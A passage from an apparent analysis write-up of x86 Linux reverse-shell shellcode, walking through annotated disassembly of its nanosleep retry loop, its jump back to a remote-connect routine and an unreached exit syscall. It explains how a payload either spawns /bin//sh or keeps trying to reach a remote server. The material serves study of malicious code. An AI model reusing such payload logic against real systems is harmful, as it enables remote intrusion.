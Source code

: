 Based on a few files of the Linux kernel, the size of `time_t` should be `4 bytes` on `x86` systems, same for the `long` type. So we're looking at a struct made out of `8 bytes`.

The first 4 bytes specify the number of `seconds` to sleep, while the other ones specify the number of `nanoseconds` to sleep.

Since the `stack` grows downward, we have to push the value of `tv_nsec` to the stack first, and then push the value of `tv_sec`. Let's look again at the struct:

```nasm
                            ; clear EBX
00000082  31DB              xor ebx,ebx

                            ; push the value of `tv_nsec` to the stack
                            ; sleep 0 nanoseconds
00000084  53                push ebx  

                            ; push the value of `tv_sec` to the stack
                            ; sleep 10 seconds
00000085  6A0A              push byte +0xa

                            ; clear EAX and EDX
00000087  F7E3              mul ebx

                            ; 1st argument of nanosleep():
                            ;   pointer to a timespec structure
00000089  89E3              mov ebx,esp
```

Once the shellcode sleeps `10 seconds`, it goes back attempting to connect to the remote server (address `00000014`):

```nasm
                            ; go back to 00000014 (to connect to the remote server)
0000008F  E980FFFFFF        jmp 0x14

                            ; apparently, this instruction is never going to be executed 
00000094  C3                ret
```

Finally, there are some instructions that call the syscall `exit()`, in order to exit gracefully.

```nasm
                            ; call exit() syscall
00000095  31C0              xor eax,eax
00000097  B001              mov al,0x1
00000099  CD80              int 0x80
```

From what it seems, this last syscall is never executed. In fact, there are only two possibilities:

- executes `/bin//sh`
- loops forever, sleeping `10 seconds` and trying to connect to the remote server

Perhaps these instructions were added for conformitiy with other Linux executable, as a way not to *stand out*.
